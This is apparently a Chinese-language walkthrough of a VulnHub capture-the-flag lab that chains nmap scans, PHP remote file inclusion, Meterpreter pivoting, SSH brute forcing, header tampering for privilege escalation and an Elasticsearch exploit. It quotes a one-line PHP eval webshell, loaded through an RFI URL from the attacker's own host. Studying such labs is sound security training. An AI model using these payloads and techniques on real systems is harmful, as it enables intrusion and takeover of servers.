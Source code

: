 题目来源：vulnhub

靶机做完耗时3天左右（大概18小时）

首先感慨一下，自己在CTF方面的积累太少太少了，水平太差太差了。。。  
个人将CTF分为4种模式：解题模式、靶场模式、综合模式、攻防模式  
解题模式：考察知识点=flag，比如答对一个知识点，弹框给出flag，个人觉得此种模式以一种很难想到的方式考察知识点，让人有些无语，感觉也比较鸡肋  
靶场模式：通常拿到webshell=flag  
综合模式：靶场模式+内网渗透=flag  
攻防模式：综合模式+防守=flag

由于攻击过程中没有截图，且答完之后ip会被拉入黑名单，故此处只是文字描述

flag1/6:  
靶机和攻击机kali都选择NAT模式，kali下执行：  
nmap -sn -T4 172.16.35.0/24  
-sn：执行ping扫描，同时关闭端口扫描  
-T4：-T选项一共0-5六个级别，分别是-T0、-T1、-T2、-T3、-T4、-T5，默认是-T3，-T0和-T1发包速率最慢，通常用于躲避IDS、IPS，-T2发包速率相对较慢，适合网络较差环境，-T4和-T5发包速率相对较快，适合网络较好环境  
扫描到靶机ip后，执行  
nmap -v -A -p1-65535 172.16.35.139  
-v：将nmap的执行过程输出  
-A：它是一个综合选项，包括操作系统检测、服务及版本检测、脚本扫描、路由跟踪  
-p：指定要扫描的端口号，也可单个指定，-p80,443,8080,8000  
发现目标开放了端口22、8000  
访问端口8000，输入flag{start}，来开启第一个攻击环境

flag2/6:  
看到形如http://172.16.35.139/?file=blog1 的url，同时通过Wappalyzer得知目标技术架构：php+linux，想到php中的文件包含漏洞  
先尝试本地文件包含漏洞http://172.16.35.139/?file=/etc/passwd 成功读取到/etc/passwd  
执行“systemctl start apache2”启动apache httpd服务，apache的web目录位于/var/www/html/  
再尝试远程文件包含漏洞http://172.16.35.139/?file=htt://172.16.35.128/phpinfo.txt 成功执行phpinfo，phpinfo.txt中的内容为
```
<?php phpinfo(); ?>
```
最后尝试http://172.16.35.139/?file=htt://172.16.35.128/ant.txt ant.txt中的内容为，
```
<?php @eval($_POST['pass']); ?>
```
蚁剑连接，成功拿到webshell，flag位于根目录下

flag3/6:  
拿到webshell后，本地生成msf payload，通过蚁剑上传并执行，本地收到反连meterpreter  
在meterpreter中添加路由，启动msf中的socks5代理，通过proxychains进行nmap扫描，当通过proxychains进行firefox访问时，不能访问到业务  
改用端口映射的方式，使用msf中自带的端口扫描auxiliary/scanner/portscan/tcp进行端口扫描，然后添加端口映射，firefox访问本地的地址，成功访问到业务  
burp代理，破解弱口令为password，并进行文件上传，蚁剑连接一直不能成功，改用菜刀，成功拿到webshell，flag位于根目录下

flag4/6:  
根据提示给出的hash，破解出10个密码，使用msf中自带的模块auxiliary/scanner/ssh/ssh_login进行爆破，其中有一个密码正确，msf会直接给反弹一个bash shell，flag位于根目录下  
此步骤中，很多文章给出的方式都是使用MobaXterm自带的代理功能配置代理，然后ssh登录，但我发现使用msf中的ssh_login更方便

flag5/6:  
根据提示扫描内网的80,443,8080,8000，使用auxiliary/scanner/portscan/tcp扫描后发现一台主机开放8000端口，使用端口映射的方式创建隧道，访问本地端口  
看到修改密码功能想到垂直越权漏洞，抓包后分析，发现将authority: YnV5ZXIxMzphcm1zMTM=这一行删除后再改密码无效，base64解密后发现这是user:password的形式，将user改为admin后重新base64编码，成功更改密码，flag位于聊天中

flag6/6:  
根据提示，是个elasticsearch相关的漏洞，使用auxiliary/scanner/portscan/tcp扫描后发现一台开放9200和9300的elasticsearch服务器，版本是1.4.2，通过searchsploit搜索elasticsearch的漏洞，搜到后使用searchsploit -m linux/remote/36337.py拷贝镜像到当前目录，直接执行会报错，查看poc发现将端口写死了，由于我是通过端口转发的方式，需要修改端口，修改端口后，成功拿到shell，flag位于根目录中

参考链接：  
https://shallowdream.cn/posts/50496#%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F  
https://blog.csdn.net/weixin_43784056/article/details/105877401
